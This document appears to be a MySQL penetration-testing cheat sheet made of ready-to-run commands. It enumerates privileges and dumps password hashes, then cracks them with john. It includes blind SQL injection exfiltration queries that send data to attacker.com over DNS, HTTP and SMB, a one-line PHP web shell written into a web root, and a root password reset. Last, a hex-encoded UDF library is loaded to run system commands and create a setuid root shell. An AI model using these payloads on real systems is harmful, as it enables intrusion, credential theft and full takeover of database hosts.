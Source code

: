 ### Version & Vars

```SQL
select @@version_compile_os, @@version_compile_machine, @@version , @@tmpdir , @@plugin_dir  ;
show variables;
```

### Priv
```SQL

select grantee, table_schema, privilege_type FROM INFORMATION_SCHEMA.SCHEMA_PRIVILEGES;
```

### Enum users Passwords

```SQL
select user,password from mysql.user;
```


### Blind SQL Data Exfiltration.


**Detect

```sql
SLEEP(5)
```

**Exfiltrate


```SQL
-- DNS Request

SELECT LOAD_FILE(CONCAT('\\\\', (SELECT foo FROM bar), '.attacker.com'));

--HTTP
SELECT DBMS_LDAP.INIT((SELECT foo FROM bar)||'.attacker.com',80) FROM DUAL;

-- SMB Share

SELECT * FROM USERS INTO OUTFILE '\\attacker\SMBshare\output.txt'
```



### Brute Force

**Old algo**

```Shell
john --format=MYSQL password.txt
```


**SHA1(UNHEX(SHA1('PASS')))**

```Shell
john --format=MYSQL-sha1 password.txt
```

### Show users with File Priv

```SQL
select user,File_priv from mysql.user;
```

```SQL
SHOW variable like "%local%" ;
SHOW variable like "%secure_file%" ;
```

### Read And Write Into FIle

```SQL
Select load_file('/etc/passwd');
LOAD DATA INFILE '/etc/passwd' INTO TABLE "mytable";
```

```SQL
SELECT "<?php echo shell_exec($_GET['c']);?>" into OUTFILE 'C:/xampp/htdocs/back.php'
```

### Exploitation

**Get a shell with the mysql client user

```SQL
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
\! sh
```

**Try to change MySQL root password

```SQL
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;
```

** Privilege Escalation via library UDF**

```shell
git clone https://github.com/mysqludf/lib_mysqludf_sys.git
cd lib_mysqludf_sys/
apt remove libmariadb-dev
wget http://ftp.debian.org/debian/pool/main/m/mariadb-10.3/libmariadb-dev_10.3.34-0+deb10u1_amd64.deb
sudo dpkg -i ./libmariadb-dev_10.3.34-0+deb10u1_amd64.deb
xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
```


```SQL

set @shell = 
0x7f454c4602010100000000000000000003003e000100000000110000000000004000000000000000e03b0000000000000000000040003800090040001c001b000100000004000000000000...00000000000000000000;
select @@plugin_dir;
select binary @shell into dumpfile '/home/dev/plugin/agh_sys_exec.so';
create function sys_exec returns int soname 'agh_sys_exec.so';
select * from mysql.func where name='sys_exec'
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
```